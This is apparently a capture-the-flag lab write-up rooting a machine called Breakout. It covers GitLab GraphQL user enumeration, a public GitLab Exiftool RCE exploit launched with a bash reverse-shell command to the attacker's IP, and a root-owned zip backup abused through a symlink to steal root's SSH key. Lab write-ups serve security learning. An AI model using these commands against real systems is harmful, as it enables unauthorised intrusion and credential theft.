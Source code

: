 # Breakout

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:28 +08
Warning: 192.168.183.182 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.182
Host is up (0.17s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Web Enum --> GraphQL

Port 80 reveals a Gitlab instance:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

I tried registering a user, but it wasn't allowed since the Gitlab administrator needed to approve first. I ran a `feroxbuster` scan to enumerate directories.&#x20;

```
$ feroxbuster -u http://192.168.183.182
200      GET      264l     1543w        0c http://192.168.183.182/search
200      GET      353l     2789w        0c http://192.168.183.182/help
301      GET        1l        5w       98c http://192.168.183.182/profile => http://192.168.183.182/-/profile
200      GET      363l     1838w        0c http://192.168.183.182/public
302      GET        1l        5w      105c http://192.168.183.182/snippets => http://192.168.183.182/explore/snippets
302      GET        1l        5w       96c http://192.168.183.182/projects => http://192.168.183.182/explore
401      GET        0l        0w        0c http://192.168.183.182/v2
302      GET        1l        5w      103c http://192.168.183.182/groups => http://192.168.183.182/explore/groups
200      GET      441l     2057w        0c http://192.168.183.182/webmaster
200      GET      441l     2057w        0c http://192.168.183.182/root
200      GET      363l     1838w        0c http://192.168.183.182/explore
```

There wasn't much from this though. I searched for Gitlab enumeration, hoping to get someone'e cheatsheet on how to enumerate Gitlab instances, but found this instead:

{% embed url="https://www.rapid7.com/blog/post/2022/03/03/cve-2021-4191-gitlab-graphql-api-user-enumeration-fixed/" %}

I tried their PoC of accessing Gitlab using `/-/graphql-explorer`, and it worked:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

### GraphQL User Enum  --> User Login

The CVE above mentions that this allows us to enumerate users using this query:

```
{users{nodes{id name username}}}
```

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

We have 2 new users, `coaran` and `michelle`. Then, we can login with `michelle:michelle`:

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

### Gitlab RCE

Using this user, we can enumerate the version of Gitlab running:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

This is vulnerable to the Gitlab Exiftool RCE exploit.&#x20;

{% embed url="https://github.com/CsEnox/Gitlab-Exiftool-RCE" %}

```
$ python3 exploit.py -u michelle -p michelle -c "bash -c 'bash -i >& /dev/tcp/192.168.45.208/4444 0>&1'" -t http://192.168.183.182
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
```

<figure><img src="../../../.gitbook/assets/image (97) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### LinPEAS --> SSH Key

I ran `linpeas.sh` and it found some potential SSH keys.&#x20;

```
[+] Searching ssl/ssh files
ChallengeResponseAuthentication no                                                           
UsePAM yes
Possible private SSH keys were found!
/var/opt/gitlab/backups/mykey
/var/opt/gitlab/gitlab-rails/etc/secrets.yml
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow
```

We can read the file and verify that it is an SSH key:

```
git@breakout:/tmp$ cat /var/opt/gitlab/backups/mykey 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA4eDGWPfq/wKo4whXeFRr8Dq+wgoCClqpJmxRajPmCaSrULo/uPad
<TRUNCATED>
```

We know that there are 2 users on the machine, and I tested with both. Using this key, we can `ssh` in as `coaron`:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### Pspy --> Symlink Exploit

`linpeas.sh` didn't reveal much, so I ran a `pspy64` instead. I found some interesting processes involving zip files:

{% code overflow="wrap" %}
```
2023/07/12 07:46:01 CMD: UID=0    PID=320345 | bash /opt/backups/backup.sh 
2023/07/12 07:46:01 CMD: UID=0    PID=320346 | /usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/alertmanager /srv/gitlab/logs/gitaly /srv/gitlab/logs/gitlab-exporter /srv/gitlab/logs/gitlab-rails /srv/gitlab/logs/gitlab-shell /srv/gitlab/logs/gitlab-workhorse /srv/gitlab/logs/grafana /srv/gitlab/logs/logrotate /srv/gitlab/logs/nginx /srv/gitlab/logs/postgres-exporter /srv/gitlab/logs/postgresql /srv/gitlab/logs/prometheus /srv/gitlab/logs/puma /srv/gitlab/logs/reconfigure /srv/gitlab/logs/redis /srv/gitlab/logs/redis-exporter /srv/gitlab/logs/sidekiq /srv/gitlab/logs/sshd

coaran@breakout:/tmp$ cat /opt/backups/backup.sh 
/usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/*
```
{% endcode %}

Since this is being run by root, we can create a symlink here that points towards the `root` user's private SSH key. However, we cannot view the files or write to it as `coaron`, but it seems the `git` user can on the Docker container its in.

```
git@breakout:/srv$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 55.5M  1 loop 
loop1    7:1    0 55.5M  1 loop 
loop2    7:2    0 61.9M  1 loop 
loop3    7:3    0 61.9M  1 loop 
loop4    7:4    0 43.6M  1 loop 
loop5    7:5    0 67.2M  1 loop 
loop6    7:6    0 67.9M  1 loop 
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0    1M  0 part 
└─sda2   8:2    0   10G  0 part /var/log/gitlab
sr0     11:0    1 1024M  0 rom

git@breakout:/var/log/gitlab$ ls -la
total 80
drwxr-xr-x 20 root              root       4096 Mar  3  2022 .
drwxr-xr-x  1 root              root       4096 Feb 23  2021 ..
drwx------  2 gitlab-prometheus root       4096 Feb 17 17:18 alertmanager
drwx------  2 git               root       4096 Jul 12 07:37 gitaly
drwx------  2 git               root       4096 Jul 12 07:28 gitlab-exporter
drwx------  2 git               root       4096 Jul 12 07:38 gitlab-rails
drwx------  2 git               root       4096 Mar  3  2022 gitlab-shell
drwx------  2 git               root       4096 Jul 12 07:28 gitlab-workhorse
drwx------  2 gitlab-prometheus root       4096 Feb 17 17:18 grafana
drwx------  2 root              root       4096 Jan 30 10:45 logrotate
drwxr-x---  2 root              gitlab-www 4096 Feb 17 00:28 nginx
drwx------  2 gitlab-psql       root       4096 Feb 17 17:18 postgres-exporter
drwx------  2 gitlab-psql       root       4096 Feb 17 17:18 postgresql
drwx------  2 gitlab-prometheus root       4096 Jul 12 07:28 prometheus
drwx------  2 git               root       4096 Feb 17 17:18 puma
drwxr-xr-x  2 root              root       4096 Feb 16 17:18 reconfigure
drwx------  2 gitlab-redis      root       4096 Jul 12 07:27 redis
drwx------  2 gitlab-redis      root       4096 Feb 17 17:18 redis-exporter
drwx------  2 git               root       4096 Jul 12 07:27 sidekiq
drwxr-xr-x  2 root              root       4096 Jan 30 10:45 sshd
```

We can then create the symlink here:

```
git@breakout:/var/log/gitlab/gitaly$ ln -s /root/.ssh/id_rsa test1
```

Afterwards, we just need to wait for a bit before the script executes and makes a new zip file in `/opt/backups`. Once it does, copy the folder elsewhere and unzip it to reveal the SSH private key of `root`:

```
coaran@breakout:/dev/shm/srv/gitlab/logs/gitaly$ cat test1
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzAu+X5sUIUBGFen/rkbr6M09cLPZvlsrphqkjcZQ48zivybhHMIJ
<TRUNCATED>
```

We can then use this key to `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
